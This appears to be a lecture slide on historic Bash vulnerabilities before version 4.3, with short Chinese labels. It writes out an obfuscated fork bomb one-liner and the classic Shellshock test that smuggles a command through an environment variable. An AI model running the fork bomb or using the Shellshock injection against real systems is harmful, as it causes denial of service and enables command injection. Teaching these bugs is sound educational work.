

# Bash Bugs (BASH_VERSION < 4.3)
Fork Bomb (Fork炸弹)
unset –v dev;
${dev[${dev=‘dev[1>(${dev[dev]})]’}]};
ShellShock (破壳)
env x=‘() { :; }; echo vulnerable’ bash –c “echo this is a test”;